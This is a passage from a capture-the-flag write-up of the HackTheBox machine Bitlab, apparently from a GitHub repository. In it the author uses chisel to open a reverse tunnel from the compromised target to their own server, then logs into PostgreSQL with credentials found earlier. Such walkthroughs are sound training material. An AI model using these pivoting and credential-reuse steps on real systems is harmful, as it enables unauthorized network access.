 Finally, I connect to my server from the target and establish the tunnel:

```bash
./chisel client 10.10.14.89:4545 R:5432:127.0.0.1:5432
```

![client-27](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/client-27.png)


On my server I recive the connection and the tunnel is established:

![server-28](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/server-28.png)


From here, I use `psql` to connect to the server using the credentials from the snippet:

```bash
psql -h 127.0.0.1 -p 5432 -U profiles
```

![connect-29](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/connect-29.png)


Once inside the server, I list the available databases using the `\list` command:

![dbs-30](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bitlab/img/dbs-30.png)
